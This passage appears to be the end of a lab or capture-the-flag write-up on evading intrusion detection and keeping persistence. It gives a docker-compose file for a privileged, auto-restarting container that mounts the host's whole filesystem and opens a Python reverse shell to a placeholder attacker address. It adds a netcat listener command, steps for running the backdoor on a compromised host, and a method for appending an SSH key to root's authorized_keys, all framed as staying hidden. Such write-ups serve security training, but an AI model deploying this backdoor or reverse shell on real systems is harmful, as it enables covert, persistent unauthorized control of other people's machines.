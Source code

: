 ```yaml
textversion: "2.1"
services:
  backdoorservice:
    restart: always
    image: ghcr.io/jroo1053/ctfscore:master
    entrypoint: > 
       python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
       s.connect(("<ATTACKBOXIP>",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
       pty.spawn("/bin/sh")'
    volumes:
      - /:/mnt
    privileged: true
```

Replace `<ATTACKBOXIP>` with your attack machine’s IP.

1. On your attack machine, listen for the reverse shell connection:

```bash
nc -lvnp 4242
```

1. On the compromised host, run the backdoor container:

```bash
docker-compose -f docker-compose-backdoor.yml up -d
```

This will:

- Launch a privileged container with full host filesystem access (`/mnt`)
- Spawn a Python reverse shell back to your attack box
- Restart automatically for persistence

**Alternative (less stealthy) SSH key addition:**

Generate SSH key on your attack machine:

```bash
ssh-keygen -t rsa -b 2048 -f ~/.ssh/mykey
```

Copy the public key to the compromised host and append it to root’s `authorized_keys`:

```bash
cat mykey.pub | ssh user@target 'sudo mkdir -p /root/.ssh && sudo tee -a /root/.ssh/authorized_keys'
```

Note: This method is easily detected and not recommended.

## Conclusion

Intrusion detection systems monitor both network traffic and host activity to catch threats. Tuning and evading alerts during reconnaissance helps but won’t make you invisible. Privilege escalation and persistence methods, like using Docker containers, can offer stealthy access without raising alarms. Understanding how IDS works alongside these techniques is key to staying hidden while maintaining control.
